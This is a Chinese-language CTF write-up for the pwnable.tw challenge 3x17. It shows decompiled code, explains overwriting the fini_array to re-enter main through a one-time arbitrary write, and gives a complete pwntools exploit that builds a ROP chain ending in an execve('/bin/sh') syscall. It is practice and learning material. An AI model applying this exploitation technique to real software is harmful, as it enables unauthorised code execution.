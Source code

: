 ```yaml
---
title: Challenges_100-Week_5
date: 2021-02-07 01:00:41
tags: 
 - PWN
 - CTF
 - fini_arry
 - pwnable.tw
categories: "PWN"
---
```


|   Challenges    |   Tricks    |
| :-------------: | :---------: |
| pwnable.tw-3x17 | `fini_arry` |

因为最近一直在读CSAPP刷题量变少了··

<!-- more -->

# 3x17

## ida

```c
void __fastcall __noreturn start(__int64 a1, __int64 a2, int a3)
{
  __int64 v3; // rax
  int v4; // esi
  __int64 v5; // [rsp-8h] [rbp-8h] BYREF
  void *retaddr; // [rsp+0h] [rbp+0h] BYREF

  v4 = v5;
  v5 = v3;
  sub_401EB0(
    (unsigned int)main,
    v4,
    (unsigned int)&retaddr,
    (unsigned int)sub_4028D0,
    (unsigned int)libc_fini,
    a3,
    (__int64)&v5);
  __halt();
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char *v4; // [rsp+8h] [rbp-28h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  result = (unsigned __int8)++byte_4B9330;
  if ( byte_4B9330 == 1 )
  {
    sub_446EC0(1u, "addr:", 5uLL);
    sub_446E20(0, buf, 0x18uLL);
    v4 = (char *)(int)sub_40EE70(buf);
    sub_446EC0(1u, "data:", 5uLL);
    sub_446E20(0, v4, 0x18uLL);
    result = 0;
  }
  if ( __readfsqword(0x28u) != v6 )
    sub_44A3E0();
  return result;
```

[Linux x86 Program Start Up](https://niebelungen-d.top/2020/10/13/Linux-x86-Program-Start-Up/)

是静态链接程序，查看`start`函数，发现其调用了三个函数，第一个就是`main`函数，而最后一个就是`libc_fini`函数。

在`main`中实现了任意地址写，但只能输入一次。我们打算采用系统调用的方式`get shell`，在静态链接程序中，`gadget`很充足。

为此，我们要布置好ROP链。为了能多次输入我们修改`fini_arry`数组使其不断的调用`main`，虽然进入输入有条件，但是因为是不断地调用，所以会发生溢出，达到条件让我们输入。

```assembly
.text:0000000000402960 libc_fini       proc near               ; DATA XREF: start+F↑o
.text:0000000000402960 ; __unwind {
.text:0000000000402960                 push    rbp
.text:0000000000402961                 lea     rax, unk_4B4100
.text:0000000000402968                 lea     rbp, off_4B40F0
.text:000000000040296F                 push    rbx
.text:0000000000402970                 sub     rax, rbp
.text:0000000000402973                 sub     rsp, 8
.text:0000000000402977                 sar     rax, 3
.text:000000000040297B                 jz      short loc_402996
.text:000000000040297D                 lea     rbx, [rax-1]
.text:0000000000402981                 nop     dword ptr [rax+00000000h]
.text:0000000000402988
.text:0000000000402988 loc_402988:                             ; CODE XREF: libc_fini+34↓j
.text:0000000000402988                 call    qword ptr [rbp+rbx*8+0]
```

这里`lea rbp, off_4B40F0`是将数组的地址当作rbp，而后面`call qword ptr [rbp+rbx*8+0]`就是相当于调用数组中的函数。所以我们通过这个将栈迁移到`0x4B4100`的位置。所以在这里进行ROP的构造。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher

leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
context.arch="amd64"

local=1
binary='./3x17'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('220.249.52.133',32446)

elf = ELF(binary,checksec=False)

def write(addr,data):    
	p.sendafter('addr:',str(addr))
	p.sendafter('data:',data)

libc_fini=0x0402960
fini_arry=0x04B40F0
main_addr=0x0401B6D

pop_rax=0x041e4af
pop_rdi=0x0401696
pop_rbx=0x0401e0b
pop_rdx=0x0446e35
pop_rsi=0x0406c30
syscall=0x04022b4
leave_ret=0x0401c4b
sh_addr=0x04B41aa
fake_stack=0x04B4100
gdb.attach(p)
write(fini_arry,p64(libc_fini)+p64(main_addr))
write(sh_addr,'/bin/sh\x00')
write(fake_stack,p64(pop_rax)+p64(0x3b))
write(fake_stack+0x10,p64(pop_rdi)+p64(sh_addr))
write(fake_stack+0x20,p64(pop_rsi)+p64(0))
write(fake_stack+0x30,p64(pop_rdx)+p64(0))
write(fake_stack+0x40,p64(syscall))
write(fini_arry,p64(leave_ret))

p.interactive()
```


